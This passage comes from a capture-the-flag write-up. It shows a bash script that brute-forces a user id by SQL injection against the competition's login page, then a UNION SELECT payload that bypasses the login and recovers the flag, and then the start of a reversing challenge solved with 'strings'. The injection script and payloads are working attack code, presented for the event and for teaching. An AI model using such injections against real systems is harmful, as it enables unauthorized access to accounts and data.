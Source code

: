     #!/bin/bash
    for id in {0..9}; do
        echo "$id"
        curl --data-urlencode "clientname=Goutham' AND id = '$id' -- " \
            --data-urlencode "password=a" "https://vault.wpictf.xyz/login"
    done

> [link to script](scripts/web-200-vault-getid.sh)

The above script injects the additional condition for `id` value into the SQL query. Only when both `clientname` and `id` match a record in the table will a row be found in the result. We can distinguish the two cases based on the different error messages produces ("no such user" vs. "incorrect password"). So we find out that `Goutham` has `id` "2".

> Username: ' UNION SELECT "2", "c3ab8ff13720e8ad9047dd39466b3c8974e592c2fa383d4a3960714caef0c4f2", "" -- 
> Password: foobar

And that works:

    Welcome back valid user! Your digital secret is: "WPI{y0ur_fl46_h45_l1k3ly_b31n6_c0mpr0m153d}" (Log out)

---

## Reversing / 50 Penguin ##

**Files provided**

> [`penguin`](files/50-penguin) (binary file)

**Description**

> made by awg

**Solution**

This challenge asks us to give it the flag in the argument and it tells us whether or not it is the correct flag. There are some interesting strings to be found:

    $ strings penguin
    ...
    _hexedit}
    _fly._
    learn_
    have_
    _still_
    _wings,_
    gives_
    only_
    strings_
    WPI{
    ...

Useful, but `WPI{strings_only_gives__wings,__still_have_learn__fly.__hexedit}` is not the flag. Clearly something is missing. If we do a hexdump, we can locate the strings found:
